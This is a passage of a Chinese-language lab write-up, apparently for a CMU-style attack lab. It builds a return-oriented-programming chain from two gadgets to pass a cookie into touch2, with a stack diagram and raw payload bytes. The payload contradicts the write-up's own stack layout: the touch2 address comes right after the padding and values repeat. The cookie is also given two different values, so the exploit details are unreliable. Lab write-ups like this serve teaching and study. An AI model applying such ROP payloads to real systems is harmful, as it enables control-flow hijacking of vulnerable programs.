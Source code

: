 发动火眼金睛，发现`0x4019ca`这个指令中包含二进制序列`58 90 c3`，如果从`58`开始按指令解释，就是：

```nasm
popq  $rax
nop
ret
```

其中`nop`是空指令，什么也不干。于是，我找到了可以从栈上弹东西到`rax`的指令。接下来要把十六进制数`59b99fa`放在栈的合适位置上，然后把`rax`的值想办法传给`rdi`就可以。

再发动火眼金睛，发现`0x4019a0`这个指令中包含二进制序列`89 c7 c3`。解释为：

```nasm
movl  %eax,%edi
ret
```

至此，所有需要的信息都有了。想开出火眼金睛，可以到`Writeup`的表格里面找找灵感，还要记得，给终端的输入不能出现换行符，`nop`空指令的编码是`0x90`。我也在这卡了很久，悟出空指令这里才豁然开朗。

总结一下，动作应该是这样的：

1. `getbuf`执行`ret`指令，跳转到上文`popq`指令。

2. 执行`popq`指令，`rax`具有`cookie`的值。

3. 执行`ret`指令，跳转到上文`movl`指令，`rdi`具有`cookie`的值。

4. 执行`ret`指令，跳转到`touch2`函数。

所以，`getbuf`执行`ret`指令之前，栈上的内容，从栈顶开始，依次为：

1. `popq`指令地址，计算得到`0x4019ca + 2 = 0x4019cc`。

2. `cookie`的值。

3. `movl`指令地址，计算得到`0x4019a0 + 3 = 0x4019a3`

4. 函数`touch2`地址。

这些数据应该像之前一样通过终端IO传给进程，放在比返回地址更大的地方。

```
.               .
.               .
|  0x4017ec     |  <-- touch2 addr
|  0x4019a3     |  <-- movl addr
|  0x59b997fa   |  <-- cookie
|  0x4019cc     |  <-- popq addr
|               |  <-- buf ends
.               .
.               .
.               .
|               |
|_______________|  <-- buf
```

依然要注意大端和小端问题。应该喂给进程的字节序列为：

```
11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 ec 17 
40 00 00 00 00 00 a3 19 40 00 00 00 00 00 fa 97 b9 59 
00 00 00 00 cc 19 40 00 00 00 00 00 fa 97 b9 59 00 00 
00 00 a3 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00 
```
